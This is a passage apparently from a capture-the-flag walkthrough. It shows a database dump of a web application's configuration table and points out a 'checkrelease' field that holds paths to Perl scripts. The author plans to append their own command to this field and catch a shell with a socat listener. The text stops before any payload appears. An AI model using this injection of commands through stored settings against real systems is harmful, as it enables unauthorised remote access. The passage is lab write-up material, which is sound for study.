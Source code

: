     |  83 | smtpuser                |                                                                          |
    |  84 | smtppass                |                                                                          |
    |  85 | smtppass                |                                                                          |
    |  86 | checkrelease            | /home/guly/checkbase.pl;/home/guly/checkplugins.pl;                      |
    |  87 | smtphost                | localhost                                                                |
    |  88 | smtpsecure              | none                                                                     |
    |  89 | smtpport                | 25                                                                       |
    |  90 | caching                 | 0                                                                        |
    |  91 | cache_handler           | file                                                                     |
    |  92 | cachetime               | 15                                                                       |
    |  93 | MetaDesc                |                                                                          |
    |  94 | MetaKeys                |                                                                          |
    |  95 | MetaTitle               | 1                                                                        |
    |  96 | MetaAuthor              | 1                                                                        |
    |  97 | MetaVersion             | 0                                                                        |
    |  98 | robots                  |                                                                          |
    |  99 | sef                     | 1                                                                        |
    | 100 | sef_rewrite             | 0                                                                        |
    | 101 | sef_suffix              | 0                                                                        |
    | 102 | unicodeslugs            | 0                                                                        |
    | 103 | feed_limit              | 10                                                                       |
    | 104 | lifetime                | 1                                                                        |
    | 105 | session_handler         | file                                                                     |
    +-----+-------------------------+--------------------------------------------------------------------------+
    52 rows in set (0.00 sec)
    

Row 86, `checkrelease` looks interesting:

    
    
    /home/guly/checkbase.pl;/home/guly/checkplugins.pl;
    

### Shell

I can’t see those scripts, but it’s seems like a command line that might get
run by something. I’ll start another `socat` listener, and I’ll add my own
command in:

